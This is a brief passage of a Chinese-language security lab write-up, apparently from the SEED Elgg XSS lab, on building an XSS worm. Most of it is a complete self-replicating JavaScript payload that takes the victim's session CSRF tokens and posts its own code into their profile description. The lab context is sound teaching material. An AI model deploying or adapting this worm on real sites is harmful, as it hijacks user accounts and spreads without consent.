 # 2.3构造 XSS 蠕虫

修改脚本使其产生复制作用，脚本如下：

```
<script id="worm" type="text/javascript">
	window.onload = function() {
		var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
		var jscodeTag = document.getElementById("worm").innerHTML;
		var footerTag = "</"+"script>"
		var wormcode = encodeURIComponent(headerTag+jscodeTag+footerTag);
		var elgg_ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
		var elgg_token = "&__elgg_token=" + elgg.security.token.__elgg_token;
		var guid = "&guid=" + elgg.session.user.guid;
		var name = "&name=" + elgg.session.user.name;
		var desc = "&description=:):):):):):). zyx" + wormcode + "&accesslevel[description]=2";
		var content = elgg_token + elgg_ts + name + desc + guid;
		var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
		if (elgg.session.user.guid != 47) {
			var Ajax = null;
			Ajax = new XMLHttpRequest();
			Ajax.open("POST",sendurl,true);
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send(content);
		}
	}
</script>
```

![image-20240703184919119](img/image-20240703184919119.png)
